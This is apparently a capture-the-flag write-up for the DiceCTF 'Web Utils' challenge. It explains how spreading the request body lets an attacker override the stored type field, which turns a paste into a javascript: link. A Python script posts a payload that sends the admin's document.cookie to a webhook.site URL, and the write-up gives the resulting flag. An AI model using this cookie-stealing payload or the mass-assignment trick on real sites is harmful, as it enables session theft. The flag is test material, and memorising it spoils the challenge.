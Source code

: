 # Web Utils
### Made by: BrownieInMotion, Jim

Challenge text:
```
My friend made this dumb tool; can you try and steal his cookies? If you send me a link, I can pass it along.
```
We were also given the zipped folder [app](app).

The website was a combination of a URL "shortener" and a Pastebin. You could create both links and pastes, but links had to start with `http(s)://`. After creating either you got a URL that looked something like this `https://web-utils.dicec.tf/view/y00cs353`. It used the `/view/` endpoint for both links and pastes, which is a bit odd. Your data was loaded using this JS:
```js
(async () => {
    const id = window.location.pathname.split('/')[2];
    if (! id) window.location = window.origin;
    const res = await fetch(`${window.origin}/api/data/${id}`);
    const { data, type } = await res.json();
    if (! data || ! type ) window.location = window.origin;
    if (type === 'link') return window.location = data;
    if (document.readyState !== "complete")
    await new Promise((r) => { window.addEventListener('load', r); });
    document.title = 'Paste';
    document.querySelector('div').textContent = data;
})()
```
It basically gets the last part of the URL, and asks the API for the data associated with it. The API doen't do anything special, it simply returns the `data` and `type`. If the type is a link, it changes the window.location to the data, otherwise it displays the paste data by changing the `textContent`. When you change `textContent`, the browser does no parsing, which means you can't inject scripts in a paste no matter how hard you try. Because of this along with the fact that both pastes and links shared the same endpoint I assumed my goal was to create a `javascript:` link. The problem was that links *had* to start with `http(s)://`, and `https://javascript:alert(1);` doesn't work. There also wasn't a way to create a paste with a link type, as this was done server-side.

A normal request payload when you create a paste is JSON formatted and looks like this: `{"data":"Paste content!"}`. However on the server we see that it calls the `database.addData` with an object as an argument with the type set to "paste", our request content and the id. The anomaly here is that instead of inputting `req.body.data`, it uses the JS [spread operator](https://oprea.rocks/blog/what-do-the-three-dots-mean-in-javascript/) on the entire `req.body`. We can recreate that in our own file.
```js
const uid = 'randUID1'

let reqbody = {
    data: "Paste content!"
}

let db_obj = { type: 'paste', ...reqbody, uid }

console.log(db_obj);
```
The output of this is: `{ type: 'paste', data: 'Paste content!', uid: 'randUID1' }`

However, due to the nature of how spread works, we can overwrite the type by changing the reqbody. If we change reqbody to
```
{
    data: "Paste content!",
    type: "link"
}
```
The output will be `{ type: 'link', data: 'Paste content!', uid: 'randUID1' }`. This allows us to create links that don't start with `http(s)://`. Knowing this we can create a `javascript:` link.

```py
import json
import requests

payload = {
    "data": "javascript:window.location='https://webhook.site/c0b95a39-1d3f-4636-bcdb-6816c1908c05?c=%27+document.cookie",
    "type": "link"
}

print(requests.post('https://web-utils.dicec.tf/api/createPaste', data=json.dumps(payload), headers={'content-type': 'application/json'}).text)
```
Response: `{"statusCode":200,"data":"2d5yEcsR"}`

We then send the admin bot the link to our paste, and we see their cookie which is the flag `dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}`.